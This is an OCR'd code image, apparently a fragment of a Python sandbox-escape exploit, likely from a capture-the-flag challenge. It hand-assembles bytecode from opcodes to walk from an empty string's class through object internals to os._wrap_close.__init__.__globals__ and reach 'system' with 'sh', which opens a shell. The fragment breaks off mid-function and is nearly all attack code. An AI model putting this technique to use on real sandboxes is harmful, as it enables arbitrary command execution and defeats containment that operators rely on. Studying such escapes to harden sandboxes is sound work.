 ```python
    return hint, code


def str_helper2():
    # __globals__
    hint = os._wrap_close.__init__.__class__.__dict__
    code = \
        b"" + \
        get_class() + \
        get_dict()
    return hint, code


def str_helper3():
    # system
    hint = os._wrap_close.__init__.__globals__
    code = b""
    return hint, code


def str_helper4():
    # sh
    hint = ''.__class__.__dict__
    code = \
        gen_empty_str() + \
        get_class() + \
        get_dict()
    return hint, code


def call_method(x):
    return bytes([opmap["CALL_METHOD"], x])


def call_function(x):
    return bytes([opmap["CALL_FUNCTION"], x])


def save_var(x):
    return bytes([opmap["STORE_NAME"], x])


def load_var(x):
    return bytes([opmap["LOAD_NAME"], x])


def binary_subscr():
    return bytes([opmap["BINARY_SUBSCR"], 0])


def get_code():
    code = b""

    # <class 'type'>
    code += gen_empty_str()
    code += get_class()
    code += get_class()

    # <class 'object'>
    code += save_var(1)
    code += load_var(1)
    code += get_dict()
    code += gen_string(str_helper1, '__getattribute__')
```
